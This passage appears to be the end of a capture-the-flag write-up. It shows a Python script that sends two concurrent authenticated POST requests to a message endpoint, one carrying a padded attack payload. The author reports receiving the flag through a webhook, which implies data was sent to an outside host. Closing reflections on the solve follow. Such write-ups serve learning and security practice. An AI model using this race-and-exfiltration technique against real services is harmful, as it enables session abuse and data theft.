```python:s1.py
reqs = []
reqs.append(grequests.post(url + f'/sessions/{sid}/messages', json={'content': 'A' * 128}, headers={'Cookie': 'session=' + auth_sess}))
reqs.append(grequests.post(url + f'/sessions/{sid}/messages', json={'content': 'A' * 128 + payload}, headers={'Cookie': 'session=' + auth_sess}))

resps = grequests.map(reqs)
for resp in resps:
    print(resp.text)

print(sid)
```

A few seconds after reporting the second message, I got the webhook notification and decoded the flag:

`idek{78a750a47c1a4350a0f528b63293dc05f3c9afcee09bbb0f85b5b2d13b537b95}`

# Closing thoughts

I was quite happy with this solve. This challenge consisted of many smaller parts which in isolation aren't that hard, but with a  large codebase its easy to get lost or stuck down a rabbit hole. I found it helpful to follow the signposts (e.g. button click in the bot, existence of admin routes) whenever I was stumped.